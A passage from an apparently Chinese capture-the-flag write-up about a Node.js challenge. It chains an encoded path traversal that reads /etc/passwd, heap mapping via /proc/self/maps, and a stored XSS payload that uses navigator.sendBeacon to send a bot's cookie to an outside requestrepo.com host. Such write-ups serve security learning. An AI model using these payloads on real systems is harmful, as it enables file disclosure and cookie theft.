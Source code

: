 ```php
fs.open( filename, flags, mode, callback )
fs.read(fd, buffer, offset, length, position, callback)
```

- **fd:** File descriptor returned by fs.open() method.
- **buffer:** Stores the data fetched from the file.
- **offset:** Offset in the buffer indicating where to start writing at.
- **length:** An integer that specifies the number of bytes to read.
- **position:** An integer that specifies where to begin reading from in the file. If position is null, data is read from the current file position.
- **callback:** The callback function accepts the three arguments ie. (err, bytesRead, buffer).

读passwd：

![image-20220404163440916](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-9c6181905c770e72dacec9e9a23e7791ef29e0dc.png)

这里t获取了`..%2f..%2f..%2f..%2f..%2fetc%2fpasswd`，然后fs.open打开，fd是fs.open()返回的文件描述符，fs.read将内容读入buf

s获取了`0`，e获取了`1024`

这里有xss，但是好像并没有什么用，不可控，似乎只能来读取东西？

![image-20220404170100471](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-58d001c70cfd5b354b16741646452b7120dd90f2.png)

`Buffer.alloc`函数是填充(e-s)，这里就是填充1024个长度

![image-20220404170830527](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-bcd7dffb67fdd6720f97422ca7bc2fa138b471d5.png)

我们可以通过读/proc/self/maps获取堆布局

![image-20220404171428793](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-1877e5aed2d66ad73601dad0f6b0b4cf33e1ba67.png)

注意heap大小和范围：

```php
heap_start = 0x053d6000
heap_end = 0x0631d000
```

![image-20220404171538500](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-ab36195240c3a969624023fef21b8aea20ac9800.png)

identify接口这里的total是一个全局变量，应该会在内存中常驻

![image-20220405155549722](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-be050dfcfe652bbefd8676500c20d88757f3e457.png)

可以看到机器人获取URL中的文件路径然后再访问，我们就可以利用将xss payload写入到内存中，获取bot的cookie（只能说这bot看上去好复杂

![image-20220405083617592](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-26af97851ada81c15e9e7caecae08d949f878001.png)

通过identify接口写入

```php
username=test&test=<script>navigator.sendBeacon('//'+document.cookie.substr(13,100).replace('}','')+'.flag.u5uc8xic.requestrepo.com');</script>
```

![image-20220404144518078](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-a012f18297452f7641fa201fb7c30aca986cf58f.png)
